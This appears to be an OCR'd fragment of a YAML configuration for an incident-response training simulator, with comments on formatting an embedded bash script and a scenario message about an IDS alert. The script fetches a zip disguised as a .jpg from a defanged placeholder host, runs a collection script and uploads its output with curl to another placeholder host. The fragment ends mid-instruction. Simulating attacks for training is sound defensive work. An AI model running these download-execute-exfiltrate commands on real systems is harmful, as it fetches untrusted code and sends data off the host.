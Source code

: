        # theShell: cmd.exe
       theShell: "/usr/bin/bash"
       # For the script, indent 2 spaces under "theScript: |-2
       # In order to preserve the newlines.
       # Leave: theScript: |-2
       # It tells the viper parser to preserve newlines
       # for lines with two space indentions under the key: theScript
       # Be sure the last line of the script is: exit 0
       # so it can be deleted before the triblet terminates
       theScript: |-2
         #!/bin/bash

         ## Simulate a script collection and upload
         wget hxxp://somehost/aserq.jpg -O files.zip
         unzip files.zip
         cd files
         chmod +x collect.sh
         ./collect.sh
         gzip output.txt
         curl -F 'f=output.gz' hxxp://anotherhose/upload.php

         # Be sure to include exit 0
         # so the script will be deleted
         # by the triblet.
         exit 0
         # Or just ask the user what command was used to generate the output
         theMsg: "An IDS alerted to a host communicating with a known malicious IP. Investigate and find out what happened."

Save the file and run:
